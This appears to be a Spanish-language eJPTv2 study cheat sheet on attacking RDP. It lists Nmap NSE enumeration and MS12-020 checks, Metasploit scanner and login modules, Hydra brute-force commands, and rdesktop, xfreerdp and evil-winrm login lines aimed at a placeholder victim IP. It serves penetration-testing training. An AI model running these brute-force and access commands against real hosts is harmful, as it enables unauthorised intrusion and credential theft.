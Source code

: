 ```yaml
---
layout: default
title: Preparación EJPTv2
---
```



# 🔍 3389 - RDP

 RDP El puerto 3389 es utilizado por el servicio Remote Desktop Protocol (RDP), un protocolo de acceso remoto común en entornos empresariales y administrativos. Debido a su uso extendido, es un objetivo frecuente de ataques y auditorías de seguridad.

## 🛠️ Herramientas Principales:


- 🔍 Nmap + Scripts NSE: Enumeración y detección de vulnerabilidades.

- 🛠️ Metasploit: Explotación de fallos y acceso no autorizado.

- 🔧 Hydra: Ataques de fuerza bruta para credenciales.

- 📊 Rdesktop, XFreeRDP, Evil-WinRM: Acceso remoto y gestión de sesiones.

🕵️ Reconocimiento e Identificación del Servicio RDP Determinar la versión del servicio RDP es clave para detectar posibles vulnerabilidades.

```bash
nmap -p 3389 -sCV <ip_victima> # Escaneo para intentar ver la versión.
nmap -p 3389 --script rdp-enum-encryption <ip_victima> # Identificación de cifrado RDP.
nmap -p 3389 --script rdp-vuln-ms12-020 <ip_victima> # Detección de vulnerabilidad MS12-020.
nmap -p 3389 --script rdp-ntlm-info <ip_victima> # Extracción de información NTLM.
nmap -p 3389 --script rdp-brute <ip_victima> # Ataque de fuerza bruta a RDP.
```

###  🛠️Uso de Metasploit para Auditoría de RDP Enumeración de configuración y detección de vulnerabilidades.

```bash
msfconsole -q
use auxiliary/scanner/rdp/rdp_scanner # Escaneo de servicio RDP
set RHOSTS <ip_victima>
run
```

 Ataque de autenticación débil con Metasploit.

 ```bash
 use auxiliary/scanner/rdp/rdp_login
set RHOSTS <ip_victima>
set USER_FILE /ruta_diccionario_usuarios.txt
set PASS_FILE /ruta_diccionario_claves.txt
set THREADS 10
exploit
```

## 🔑 Fuerza Bruta al Servicio RDP Hydra

```bash
hydra -t 4 -V -f -L <wordlists_usenames.txt> -P <wordlists_password.txt> rdp://<ip_victima>
```

## 📊 Acceso Remoto y Gestión de Sesiones

Rdesktop

```bash
rdesktop -u <usuario> -p <contraseña> <ip_victima>
```

XFreeRDP

```bash
xfreerdp /v:<ip_victima> /u:<usuario> /p:<contraseña>
```

Evil-WinRM (para sesiones PowerShell remotas)

```bash
evil-winrm -i <ip_victima> -u <usuario> -p <contraseña>
```

<div style="text-align:center; font-size: 0.9em; margint-top: 40px; color: #33ff33;">
    💻 Hecho con 💚 por <strong>Marcela</strong> - 2025
</div>



